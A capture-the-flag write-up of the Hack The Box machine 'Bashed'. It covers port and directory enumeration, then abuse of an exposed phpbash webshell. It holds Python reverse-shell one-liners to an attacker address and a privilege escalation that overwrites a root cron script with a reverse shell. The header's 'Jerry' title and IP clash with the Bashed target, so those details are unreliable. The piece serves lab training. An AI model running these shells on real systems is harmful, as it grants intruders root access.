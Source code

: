 # HTB - Jerry

#### Ip: 10.10.10.95
#### Name: Bashed
#### Rating: Easy

----------------------------------------------------------------------

![Bashed.png](../assets/bashed_assets/Bashed.png)

### Enumeration

Lets begin enumerating this box by scanning all TCP ports. I will also speed this scan up by adding the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Bashed]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-22 14:44 CDT
Nmap scan report for 10.10.10.68
Host is up (0.080s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```

Ok, so looks like only port 80/http is up on this box. Let's go ahead and emumerate a bit further and port scan with the `-sC` and `-sV` flags set to enumerate versions and also throw some basic Nmap scripts at it:

![nmap.png](../assets/bashed_assets/nmap.png)

So looks like the site is running on Apache, but so far nothing else very interesting jumps out. From here lets try enumerating more and seeing if we can find more directories. For this I will use FeroxBuster, which is incredibly fast:

![feroxbuster.png](../assets/bashed_assets/feroxbuster.png)

Cool, we've found a few more directories to investigate, and  /dev seems particularly interesting.

Navigating to the site we find phpbash.php and that appears to be an interactive webshell, in which we can run various commands.

![web_shell.png](../assets/bashed_assets/web_shell.png)

### Exploitation

Grabbing a python reverse shell one-liner from https://www.revshells.com/ I simply set up a netcat listener and paste the following into the webshell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![nc_shell.png](../assets/bashed_assets/nc_shell.png)

Nice! We now have a shell as www-data. I can quickly stabilize the shell using:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

and grab the user.txt flag:

![user_flag.png](../assets/bashed_assets/user_flag.png)

### Privilege Escalation

From here I ran `sudo -l` to see what, if any commands can be run with elevated privileges.

```text
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Interesting.. it appears I can run any command as user scriptmanager. I'll run `sudo -u scriptmanager bash` to change my user to scriptmanager:

```text
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

Now as user scriptmanager I will go back to enumerating the box. In the `/` I find a directory named scripts, which isn't typical. Looking at the scripts it appears there is a file test.py which writes to test.txt every minute. 

```text
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

I can confirm test.txt is being written to every minute by running `ls -la`, observing the date/time, waiting one minute and running the commmand again. 

![time_diff.png](../assets/bashed_assets/time_diff.png)

Also of note is the fact that scriptmanager owns the test.py file, whereas root is the owner of test.txt, so in theory I should be able to get a shell back as root if I can successfully inject a reverse shell into test.py. 

Lets try it out. First, I will set up a netcat listener `nc -lnvp 8888` and then run:

```text
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

to write the reverse shell into the cron-job.

Sure enough one minute later I catch a reverse shell as root on my netcat listener. After stabilizing the shell all thats left to do is grab the flag.

![root_flag.png](../assets/bashed_assets/root_flag.png)

### Key Takeaways

- Sometimes it's the features themselves that prove to be the biggest vulnerabilities. Having this webshell on a public facing site was clearly a bad idea.

- It pays to investigate machines manually once on the target, as you may find things that stand out as peculiar, that may warrant more investigating. It is not common to see a scripts directory in `/` which tipped me off to investigate more.

Thanks for following along!

Ryan

----------------------------------------------------------------------------------------------------------------
